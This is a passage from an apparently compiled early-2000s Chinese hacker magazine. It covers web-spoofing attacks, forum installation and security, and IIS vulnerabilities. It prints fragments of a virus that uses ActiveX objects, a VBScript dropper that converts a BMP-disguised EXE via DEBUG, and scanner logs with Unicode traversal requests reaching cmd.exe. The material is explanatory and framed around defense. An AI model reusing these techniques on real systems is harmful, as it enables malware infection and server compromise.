攻击者能够监视受攻击者的网络信息，记录他们访问的网页和内容。当受攻击者填写完一张表单并发送后，这些数据将被传送到 Web 服务器，Web 服务器将返回必要的信息，但不幸的是，攻击者完全可以截获并加以使用。大家都知道，绝大部分在线公司都是使用表单来完成业务的，这意味着攻击者可以获得用户的账户和密码。

下面我们将看到，即使受攻击者有一个“安全”连接（通常是通过 Secure Sockets Layer 来实现的，用户的浏览器会显示一把锁或钥匙来表示处于安全连接），也无法逃脱被监视的命运。

在得到必要的数据后，攻击者可以通过修改受攻击者和 Web 服务器之间任何一个方向上的数据，来进行某些破坏活动。攻击者修改受攻击者的确认数据，例如，如果受攻击者在线订购某个产品时，攻击者可以修改产品代码、数量或者邮政地址等等。攻击者也能修改 Web 服务器所返回的数据，例如，插入易于误解或者攻击性的资料，破坏用户和在线公司间的关系等等。

## 三、Web 的攻击手段

### 1、整个网页的假象

攻击者完全制造整个网页的假象。攻击者只需要制作一个完整的网页假象，而没必要存储网页的内容。这种类似于现实中的虚拟世界，这个虚拟的世界完全来自于真实世界的拷贝。一些虚假的游戏站点，攻击者允许用户在线修改密码，而这些密码将被发送给攻击者的服务器，如图 1 就是来自一个游戏站点的虚假网页。



在这个攻击过程中，攻击者主要做了如下手段。

攻击者修改了 Web 中的 URL 地址，就是说指向攻击者的 Web 服务器而不是真正的 Web 服务器。

它通过在所有链接前加上另外的一个 Web 地址。如攻击 www.distinct.com，可以写成 http://www.distinct.com/http://home.yushi.com，当用户输入 http://home.yushi.com 时，当然，用户看见的是 http://home.yushi.com，其实却进入了 www.distinct.com。整个过程是这样的：

- 1. 用户点击经过改写后的 `http://www.distinct.com/http://home.yushi.com`
- 2. `http://www.distinct.com` 向 `http://home.yushi.com` 请求文档
- 3. `http://home.yushi.com` 向 `http://www.distinct.com` 返回文档
- 4. `http://www.distinct.com` 改写文档中的所有 URL
- 5. `http://www.distinct.com` 向用户返回改写后的文档

这个时候，文档中的 URL 可以利用上面的方法来指向 www.distinct.com，用户就此被欺骗了。而且当攻击者制作了一个表单的提交后，很有可能将你个人的信息用在欺骗中。只要遵循标准的 Web 协议，表单欺骗很自然地不会被察觉：表单的确定信息被编码到 URL 中，内容会以 HTML 形式返回。

我们来看这个表单的返回，如图 2 所示。



在上图中，很显然，攻击者把修改的密码和用户的表单提交给了攻击者的服务器。当你填入账户为 lishihui，密码为 woaini，并修改密码为 mylover 的时候，同样表单会告诉你：“恭喜你，密码修改成功。”同时，密码和账户都将提交给攻击者。

### 2、特殊的网页的假象

攻击者可以制造一些特殊的网页来攻击用户。而这些网页表面上看起来或许只是一个音乐站点，或者只是简单的一幅图片。但是通过 JavaScript 编程或者 Perl 等网页语言，受害者会被感染病毒和下载木马程序。

- 1）Web 病毒

这种 Web 欺骗主要是以迫害用户机器为主。它制作的 Web 看起来没有任何的危害，但是你的机器却被感染了病毒。如 2002 年 5 月的一种“混客 Web”病毒，下面我们分析一下进行 Web 欺骗原理的代码。

病毒利用脚本语言 JavaScript 写成，它在发作模块中写下了下面的代码：

```javascript
a1=document.applets[0]
a1.setCLSID('{1F935DC22-1C8F0-11D0-ADB9-00C04FD58A0B}')
a1.createInstance()
Shl==a1.GetObject()
a1.setCLSID('{0D43FE01-F093-11CF-8940-00A0C9054228}')
a1.createInstance()
FSO==a1.GetObject()
a1.setCLSID('{1F935DC26-1CF0-11D0-ADB9-00C04FD58A0B}')
a1.createInstance()
Net==a1.GetObject()
```

而后利用函数 RegWrite 等向注册表中写下键值，通过 Windows 本身特性来完成它的破坏过程。

知道了它运行的原理后，编写解除它的代码就简单了。只需要将相应的键值改过来就可以了，我们可以发现杀毒程序也是这样做的。

- 2）Web 木马

一些 Windows 的漏洞给攻击者提供了方便。诸如 IE 的漏洞，如 IE 5.0 在访问 FTP 站点时的漏洞，即泄露个人密码资料的弊端，可把你的用户名和密码都不加密且以文本的形式直接存储在历史记录中。它们的具体位置如下。

IE 5.0 ActiveX 漏洞，这个东西的应用有很多了，很多地方我们都可以看到有关它的报道。其实还有利用 `` 之类的，真是不胜其扰。另外，还有将可执行的文件改成图片格式文件的病毒，我们可以来分析一下。

病毒的原理不同于以前的“mime”漏洞，它是将 EXE 文件伪装成一个 BMP 图片文件，并欺骗 IE 自动下载，再利用网页中的 JavaScript 脚本查找客户端的 Internet 临时文件夹，找到下载后的 BMP 文件，把它拷贝到 TEMP 目录，再编写一个脚本把找到的 BMP 文件用 DEBUG 还原成 EXE，并把它放到注册表启动项中，在下一次开机时执行。

BMP 文件的文件头有 54 个字节，里面包含了 BMP 文件的长度、位数、文件大小、数据区长度，我们只要在 EXE 文件的文件前面添加相应的 BMP 文件头，这样就可以欺骗 IE 下载该 BMP 文件。

它的实现过程首先是在用户浏览的网页上加入一段感染代码，它的主要功能是在本机器的 SYSTEM 目录下生成一个 “S.VBS” 文件，而后这个脚本将会在下次开机的时候自动加载，然后从临时文件夹中查找目标 BMP 图片，找到后生成一个 DEBUG 脚本。

```vb
set Lt=FSO.CreateTextFile(tmp & "tmp.in")
Lt.WriteLine("rbx")
Lt.WriteLine("0")
Lt.WriteLine("rcx")
```

下面一行的 1000 是十六进制，换回十进制是 4096（该数字是你的 EXE 文件的大小）。

```vb
Lt.WriteLine("1000")
Lt.WriteLine("w1360")
Lt.WriteLine("q")
Lt.Close
WSH.Run "command /c debug <" & tmp & "tmp.dat <" & tmp & "tmp.in >" & tmp & "tmp.out", false, 0
On Error Resume Next
FSO.GetFile(tmp & "tmp.dat").Copy(winsys & "tmp.exe")
FSO.GetFile(tmp & "tmp.dat").Delete
FSO.GetFile(tmp & "tmp.in").Delete
FSO.GetFile(tmp & "tmp.out").Delete
```

程序运行时会自动从 BMP 文件 54 字节处读取你指定大小的数据，并把它保存到 tmp.dat 中，而后系统启动时自动运行，这样目的就达到了。攻击者完全可以利用该漏洞下载并自动运行程序。

另外还要注意的一点，攻击者为了更好地欺骗用户下载程序，可以利用修改连接状态。而实现修改连接状态，对于老到熟练的攻击者来讲是很容易的事情。由于连接状态位于浏览器底部的提示信息，它提示当前连接的各类信息。Web 欺骗中涉及两类信息：首先，当鼠标放置在 Web 链接上时，连接状态显示链接所指的 URL 地址，这样，受攻击者可能会注意到重写的 URL 地址；第二，当 Web 连接成功时，连接状态将显示所连接的服务器名。这样，受攻击者可以注意到显示 www.distinct.com，而非自己所希望的站点。

但攻击者能够通过 JavaScript 编程来弥补这两项不足。由于 JavaScript 能够对连接状态进行写操作，而且可以将 JavaScript 操作与特定事件绑定在一起，所以，攻击者完全可以将改写的 URL 状态恢复为改写前的状态。

## 四、Web 欺骗攻击的防范

### 1、受害体的安全意识

“确保你访问的站点是可信任的。”受害者可以查看网页源代码 HTML，查看是否有 Java 的代码在运行，而这些却要加强受害者技术的学习，以便可以早日识别攻击者的伎俩。

JavaScript、ActiveX 以及 Java 禁止。虽然这些功能被禁止了，但是一般的用户并不需要这些功能。可以阅读 JavaScript 和 ActiveX 的功能分析，并做出不同的用户是否需要禁止这些功能。

### 2、网络安全协议

在安全中的数据加密。大多数计算机网络中（当然包括 Internet），未经证明的传输都是不可靠的。例如，在 Internet 上可以伪造任意数据包，包括包头的值，所以不要用它们的值作为安全决定的主要依据，除非可以证实。在某些情况下，可以断定一个声称来自“内部”的数据包确实来自内部，因为本地防火墙会阻止外部的欺骗，但是被破坏的防火墙、可选择的路径和活动编码使这样的假设都值得怀疑。与之类似，不要假设低端口号（小于 1024）是可靠的，在大多数网络中这样的请求可以被伪造，或者某个平台会允许使用低端口号的端口。如果是在实现一个标准，而且继承了不安全的协议（如 FTP 和 RLOGIN），请提供安全的缺省项并确切说明所做的假设。

## 打造最强劲的论坛

安全天使

大家在网上看到各种各样的论坛，是否也想在自己的网站上做一个论坛并让它火爆起来呢？别看做论坛是很简单的事，可学问可大着呢！技术论坛并不需要太多的功能，只要能发帖、回复、贴图就算完整了；而娱乐论坛则要在功能上下功夫，为了与一些社区抗衡，经常装一些插件，在原有的功能上尽量扩充一些类似于社区的功能。对于安全意识较强的人来说，安全性则放在首位，速度和功能才是其次。安装论坛要考虑到诸多因素，这也是学问。

## 空间的选择

### 1、文件解析权限

安装论坛就要有空间的支持，现在普及的文件解析权限有 ASP、CGI、PHP。ASP + MSSQL 是最强的组合，但由于 MSSQL 数据库的空间十分昂贵（正版 MSSQL 7 万元一套），相对个人用户或初期发展阶段的网站来说，ASP + ACCESS 是很好的解决方案；CGI 使用的是文本数据库，没什么好选择的；PHP + MYSQL 也是很受宠的，支持 PHP 但没有 MYSQL 支持的空间你还是扔了吧！JSP 的程序很贵，几乎没有个人用户使用，大家还是不要考虑了。ASP.NET 倒是一个不错的选择，但 2003 年初之前是不会普及的。其实空间支持什么文件解析权限并不是首要因素，重要的是论坛本身。

### 2、速度

这是很重要的因素，买空间先要看看主机配件如何，CPU 是否“至强”或“SIS1000”，主机上放多少个用户，出口宽带是多少百 M，域名是否是该公司的服务器解析等。这些因素都多多少少影响访问速度。好的标准型主机应该是 SIS1000 CPU，60 多个用户共享 200M 宽带，域名由该公司自己的 DNS 服务器解析，才有可能是速度有保障的主机。

### 3、安全性

安全性可是最严峻的。轻则危害用户，重则危害主机。好的主机应该是技术人员经常给服务器做安全检测，第一时间打补丁，周期性给用户备份，严格控制用户的访问权限等。我想大概没有谁愿意自己站点的敏感信息受威胁吧！

### 4、售后服务

良好和周到的售后服务，才能让人买得放心，用得舒心。空间不能访问了，QQ 上询问，最坏是只能在那里马上恢复却不知道到底是什么原因，谁知道半小时后收到回复“故障排除，恢复访问”，谁也不想遇到这种情况吧！

### 5、条件限制

由于种种原因，空间商多多少少会在空间上加限制，比如系统资源、空间、在线人数、文件大小、数据库、允许放置的程序、空间流量等。300 元的空间应该是无系统资源、文件大小、数量限制的空间，流量有限制，100M 空间，支持 30 人在线，允许放一个论坛，这才是标准的空间。

### 6、推荐空间

聚网 http://www.e-168.com，该公司规模不大，可是该公司的服务器快得要命，技术人员经常检测服务器，安全性是相当高的。另有中国安全网和安全天使两个网站义务做检测，工作人员平均每天 10 小时在线，工作效率高，只要有问题（非常少的），工作人员收到消息会马上解决。该公司最大的特点是价格便宜，只要不是静态空间，任何类型的空间均可以放置一个论坛，100 元的 ASP 空间，支持 50 人在线，限制很少，而且还可以根据需要在原有空间上任意从各方面升级，有很大延展性，大家可以登录该网站看看所有客户的演示空间。

### 7、选择论坛

论坛的好坏会严重影响论坛的人气，在此我向大家推荐 5 款论坛。

> **LOOK 评点**

- 动网论坛（asp+access，商业版支持 MSSQL 数据库）
- bbsxp（asp+access）
- 雷傲论坛（CGI + 文本数据库）
- VBB 论坛（PHP + MYSQL）
- CDB 论坛（PHP + MYSQL）

以上五款论坛的演示可以到 http://test.x168.net 看演示，这是聚网的服务器。

动网论坛是由动网先锋独立开发的论坛程序，相信学习 ASP 编程的人没有不知道的。动网论坛的速度、功能都相当优秀，当前最新版本 DVBBS VER5.0 Final+SP1 正式版，据官方站点的开发人员说该版的性能较 0519 版提高 40%，速度提高 30%，而且该版本的论坛加入用户组的概念，管理员可以像管理 Windows 2000 用户组那样严格限制用户的各种权限。整个论坛又经过著名黑客 analysist 做安全检测，所以安全性是十分令人放心的；除此之外，还有不少 ASP 流程高手一起开发插件，使动网论坛有很强的扩展性，可以说动网论坛是 ASP 环境中最好的，强烈推荐支持 ASP 空间的用户使用。

下载地址：  
http://www.aspsky.net

bbsxp 是 YUZI 工作室的作品，当前最新版本是 BBSXP 1.15 正式版，大家应该听说过 BBS3000。第二好的 CGI 论坛就是 YUZI 开发的。bbsxp 是一套速度极快的免费论坛，当然也可以商业注册，它最大的特点是速度快、体积小，后台管理相当简陋，是技术论坛或者要求不高的论坛的明智选择；还有一个不同于其它论坛的特点，就是可以直接用 Dreamweaver 打开并修改页面，让不了解 ASP、HTML 的朋友能很快地做出自己的风格。如果你对速度要求很高，建议使用，不过在我看来，比动网快一、两秒也没什么实际意义……而且现在动网论坛 5.0 Final 也相当快。

下载地址：  
http://www.yuzi.net/download.htm

雷傲论坛从出生那天起，就一直坐在 CGI 论坛霸王的地位，可以说是用户群最多的论坛，占了主导地位。该论坛升级频繁，目前最新版本为 LB5000 MX 1.6，这个版本将把所有对资源占用比较大的功能全部取消，所以速度和稳定性上将会很高，占用资源极少，建议使用虚拟主机的用户全部采用 MX 版本。如果你是独立的主机，那么可以继续采用 LB5000 XP 的版本，XP 版本是功能完整的版本，尽管功能强大，但有个致命弱点，就是极消耗系统资源，虽然花无缺和山盟在不断改进，但该论坛放在 Windows 主机上时，访问的人多了，CPU 使用率常达到 100%，严重影响自己和其他用户的速度，所以这个论坛纷纷被空间商封杀；但雷傲论坛运行在 Linux 或 Unix 主机上却表现突出，功能和速度都相当不错。由于是文本数据库，所以到后期整个论坛的文件量是惊人的；如果有 1 万个用户注册，那么就会有 1 万个文件产生，备份和管理都有些麻烦。限制了文件个数的朋友最好不要用，雷傲论坛建议放在 Linux 主机上。

下载地址：  
http://www.cgier.com

VBB 论坛据说是基于 PHP + MYSQL 下最好的论坛，目前最新版本 vBulletin Version 2.2.8，在很早以前就由 vB 开发，是外国佬的作品。由于开发的时间长，所以相对于其它 PHP 论坛来说是比较成熟稳定的，而且在很久以前就有了动网现在才有的用户组概念，所以安全性和速度都是非常优秀的；因为 MYSQL 也是个比较强的数据库，个人用户比较少接触，但效率很高，速度极快，数据库越大越能体现其优势，但在 Windows 下搭建的 PHP + MYSQL 测试环境显得有点不尽如人意；PHP 论坛也和 CGI 论坛一样，在 Linux 主机上性能突出，不亚于 ASP + MSSQL。VBB 虽然是洋货，可喜的是已由烽火社区汉化，喜欢 VBB 的朋友有福了，推荐使用。

英文原版下载：  
http://www.vbulletin.com/

繁体汉化下载：  
http://www.gouhuo.com/

CDB 论坛是国产的，目前最新版本是 Discuz! 1.01。CDB 论坛开发晚，但功能还是比较完备，能和 VBB 相媲美，有“中国 VBB”之称，作者也说要让中国人用上中国的 VBB；CDB 论坛有它自己的特色，CDB 的界面比 VBB 漂亮，而且还提供 WinXP 等数 10 种界面模板，爱美的朋友有福了，至于功能和速度都与 VBB 差不多；CDB 有个优点是数据库比 VBB 小很多，朋友们可以依个人喜好选择，这里就不多说了。

下载地址：  
http://forum.crossday.com/forumdisplay.php?fid=10

还有一些其它的论坛，比如极限论坛、BBS3000、IBF、翔浩论坛、WDB 论坛都是不错的，大家可以在以下链接找到。  
http://down.kk66.com

了解各种论坛的特点，就可以针对自己空间的特点和自己的喜好选择最合适的论坛。

## 二、论坛的安装

动网论坛和 BBSXP 安装都容易，最近各杂志都刊登了其安装方法，还有雷傲，下面重点说说 VBB 论坛和 CDB 论坛。

VBB 论坛，以 VBB 2.2.7 标准汉化版为例，其实已经有新版本了，只是发布时间太迟。大家一定要用 2.2.8 版本以上的，因为 2.2.8 以下的版本都存在一个“vBulletin Calendar 远程执行任意命令漏洞”，具体大家可以看 http://www.sangel.net/article/list.asp?id=318。论坛要求首次安装只需把 upload 目录的所有文件上传到服务器，然后在 Internet 浏览器地址栏输入 http://www.yourname.com/VBB/admin/install.php（没有安装前，任何人访问论坛的客户端都是一片空白），根据提示单击下一步，下面就需要填一些信息，有不少人都不大明白这部分，往往都不能通过这里的验证，如图 1、图 2 所示。





这几项表单的含义是：

- 数据库名称：这里应填 mysql，MYSQL 数据库。
- 数据库主机名或 IP 地址：这里填域名或 PING 域名所得的 IP，注意域名不要多填“http://”。
- 数据库用户名和密码：这两项是空间开通信息上注明的，如果不知道请询问管理员。
- 数据库库名：这里填的不是任意的，这里填的应和数据库用户名一致，否则提示无法建立数据库。
- 技术支持 E-mail：填你最常用的 E-mail。

然后点下一步就 OK 了，如果还是不能通过，请仔细检查所填的内容是否正确。通过这一步，系统就开始自动安装，不一会就可以进入管理中心，设置方法只有动网、雷傲有少许不同，熟悉一下就可以设置了。CDB 论坛的安装方法和 VBB 差不多，步骤也一样，安装完毕后就可以登录。登录以后，在页头上可以看见“系统设置”的选项，然后就可以进去管理论坛，论坛的安装就简要说到这里。

## 三、论坛的安全配置

由于本人掌握的技术和爱好原因，这个部分会讲得特别详细。首先说说 ASP 论坛的数据库问题，在数据库里存放了整个论坛的所有数据，包括用户的敏感信息，这是非常危险的，这时我们就面临一个防范数据下载的问题，其实真正要做到防范下载有两个办法：

请看下面的目录结构：

```text
E → user → sangel →
                     ├→database
                     ├→web
                     └→log
```

USER 目录是存放所有客户的目录；sangel 目录是 sangel 这个客户的 FTP 目录，也就是说 sangel 通过软件 FTP 上服务器所看到的根目录；Web 目录是存放所有站点文件的目录，也就是说输入域...

# 黑客研究院

## 黑客X档案2002-2003年合订本

可以直接访问的目录，BBS 是放论坛的目录；database 用于放各种程序的数据库，当然也包含了论坛数据库。

首先将数据库上传至 database 目录，把论坛的所有文件上传至 BBS 目录，然后修改数据库配置文件 conn.asp（或其它）里面的路径，改为“../../database/bbsdatabasenodown.MDB”，就可以调用数据库了。由于 database 目录是不能够被直接访问的，所以管理员得事先做好这样的目录结构才能行得通。这时又有了第二种办法，把数据库改名为 *.asp，在 conn.asp 里改相关地方，这样也可以防止下载。其实每套论坛程序都有安全方面的说明，大家可以自行参阅。

其次是配置论坛的问题，除了 bbsxp 论坛，其它论坛的配置工作是相对繁琐的，特别是新版动网和 VBB 还有 CDB，就像设置一个操作系统一样。当然，要提高效率则要好好配置，要让整个论坛更安全，更要好好配置。

- HTML 标签是一定要无条件禁止的，不管论坛用于什么目的，否则有些不怀好意的人放个 `<iframe>` 标签，只要设法让服务器上的浏览器访问，就可以在服务器建立一个用户，并且有办法提升权限，到时整个服务器的用户都会受威胁。不是危言耸听，是真实万例的事实。

- FLASH 标签也是要禁止的，因为 FLASH 作为矢量动画的佼佼者，因此不少病毒都在利用 FLASH 传播。如果在 FLASH 里做个“get url”，就可以在你不知情的情况下打开一个新页面，引你进入带有恶意代码、病毒或是木马的页面，你痛苦不？我做了个 SWF 文件，里边有这个功能，但进的是我的论坛，大家有兴趣可以看看 http://www.sangel.net/1.swf。

- 然后是上传文件的设置，有些论坛设有完整的语句过滤代码，使得入侵者只要构造一句特殊的指令便能上传系统不允许上传的文件类型。除此不能确保这种情况不会出现在自己所使用的论坛程序上，只能禁止上传。如果确实要上传附件功能，那么请限制上传文件大小和文件类型，大小限制在 20K 以内，文件只允许 Gif、Jpg、Png、Doc、Wps、Zip、Rar 就可以了。

- 在语句的过滤和用户的过滤设置里，把一些系统命令的名称都过滤掉，比如 SYSTEM、FILE、DIR、CMD、FORMAT 等。大家还记不记得以前 BBS3000 存在一个这样的漏洞？注册一个 dir 用户，系统会生成一个 dir.cgi 的文件，当用 Internet 浏览器访问该文件时，竟出现了该主机的目录列表。现在的论坛没有了这漏洞，但也不能肯定什么时候又冒出什么新问题。

对于用户的权限也是要非常重视的，因为有些坛主看到稍有实力的人或是比较能灌的人就给他加权限，甚至给熟人、朋友、新人加权限，这是规模小的论坛的通病，是非常不可取的。通过我小规模的调查，只有 15% 的人安全意识挺高，至于那 85% 的人加过权限以后，这些人没有妥善保管自己的密码，这样给论坛的安全又带来一点威胁。所以给别人加权限时一定要看看这个人的安全意识怎么样，而且还要严格控制权限，使他不能做职责以外的事。

可能的话装些插件以增加安全性，比如随机认证码插件，让用户每次登录都要输入随机认证码，这样可以防止不怀好意的人用“溯雪”一类的工具破解用户密码。

这样的论坛才可以说是比较安全的，关于论坛的安全配置就谈到这里，说不定你比我做得更好。

## 四、论坛的优化处理

任何系统都可以优化，论坛也不例外。优化好论坛可以在很大程度上提高论坛的总体性能；这样的优化集中表现在速度上，可以从以下几个方面上进行优化。

不要显示太多图片，比如联盟论坛，在不影响合作和外交关系的情况下，尽量用文字链接；会 HTML 的朋友还可以个性化首页文件，去掉图片示例；尽量不要在分论坛前加图片，这样可以尽量减少图片的显示时间；尽量不要放广告，因为大多数广告都是连接到其它服务器上的，由于两台服务器会不同，所以速度多少会受些影响；再加上下载图片的时间就更慢了；尽量少显示一些版块，比如取消某些过生日、关闭显示在线人数等。虽然进行了这些优化，可能 ADSL 用户的效果并不是太明显，但“小猫”用户却可以明显感觉到显示时快 3—4 秒甚至 10 秒（在清除 IE 缓存的情况下比较）。

会 ASP、CGI、PHP 的朋友还可以自行修改部分代码，去掉一些不需要的功能，也可以用更简洁的代码代替原来的代码以提高效率和性能。

## 五、论坛的初期发展及后期管理

刚开始，一个论坛再怎么好，要发展壮大真的很难，看着论坛注册人数增长十几个都开心死了，下面有我几点心得供参考。

初期为了避免“冷场”现象，应尽量少开分论坛，一般 4 个就可以了，坛主自己就要勤快些，争取在最短时间内解决网友的问题，多引导网友们自己去交流，想办法去多做宣传，比如利用聊天室、QQ、E-mail 群发等，但一定要注意影响，不要夸大事实。

后期你的论坛有名气，够火爆了，就该打算换更强劲的服务器了。如果是动网论坛，当在线人数达到 100 人，就该打算换 MSSQL 数据库了，否则性能会受到影响。注册人数到 1500 也可以考虑扩充论坛，不管分论坛有多少，主题一定要明确，追赶潮流，能够针针见血；还有一点，如果是技术论坛，就要注意“水塘”了，要及时清理“水库”啊！最后祝大家的论坛蒸蒸日上。

关于 IIS 的文章有很多，可其中绝大多数都是介绍 IIS 的漏洞及这些漏洞的使用方法，虽然也有一些文章介绍了修补这些漏洞的方法，可大都是下载补丁程序。其实，我们完全可以通过修改 IIS 自身的设置来防护这些漏洞。

下面是 x-way 对一台默认安装 IIS 5.0 的 Win2000 的扫描结果：

```
发现 CGI 漏洞 => 127.0.0.1/_vti_inf.html (200) OK

IIS-Shell 成功 => 127.0.0.1  Remote Execute Type [D]
(200) OK

IIS-Shell 成功 => 127.0.0.1  Remote Execute Type [B]
(200) OK

发现CGI漏洞=> 127.0.0.1/iissamples/exair/search/cifullhit.htw?CiWebHitsFile=/../winnt/system32/config/system.log&CiRestriction=none&CiHiliteType=Full (200) OK

发现CGI漏洞=> 127.0.0.1/_vti_bin/fpcount.exe (200) OK

发现CGI漏洞=> 127.0.0.1/iissamples/exair/search/osmhitit.htw (200) OK

发现CGI漏洞=> 127.0.0.1/scripts/..%c0%2f..%c0%2f../winnt/system32/cmd.exe?/c+dir%20c:\ (200) OK

发现CGI漏洞=> 127.0.0.1/scripts/..%c1%1c../winnt/system32/cmd.exe?/c+dir%20c:\ (200) OK

发现CGI漏洞=> 127.0.0.1/scripts/..%c1%1c../winnt/system32/cmd.exe?/c+dir (200) OK

